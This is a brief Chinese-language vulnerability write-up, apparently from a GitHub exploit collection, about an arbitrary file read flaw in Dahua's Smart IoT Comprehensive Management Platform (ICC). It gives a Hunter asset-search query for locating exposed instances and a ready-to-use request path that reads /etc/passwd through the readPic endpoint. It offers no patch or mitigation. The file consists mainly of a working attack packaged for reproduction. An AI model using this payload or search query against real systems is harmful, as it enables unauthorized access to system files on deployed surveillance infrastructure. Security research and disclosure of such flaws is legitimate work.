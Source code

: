 # 大华智能物联综合管理平台(ICC)存在任意文件读取漏洞

# 一、漏洞简介
浙江大华技术股份有限公司，是全球领先的以视频为核心的智慧物联解决方案提供商和运营服务商，大华智能物联综合管理平台(ICC)存在任意文件读取漏洞。

# 二、影响版本
+ 大华智能物联综合管理平台(ICC)

# 三、资产测绘
+ hunter`web.body="*客户端会小于800*"`
+ 特征

![1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004.png](./img/baFCS1-k5qnJaLlX/1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004-063468.png)

# 四、漏洞复现
```plain
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![1698767562703-2a52b16a-1317-44d7-8bb9-531c2f8dfe2f.png](./img/baFCS1-k5qnJaLlX/1698767562703-2a52b16a-1317-44d7-8bb9-531c2f8dfe2f-099139.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dh0fr3iwsw1u74kk>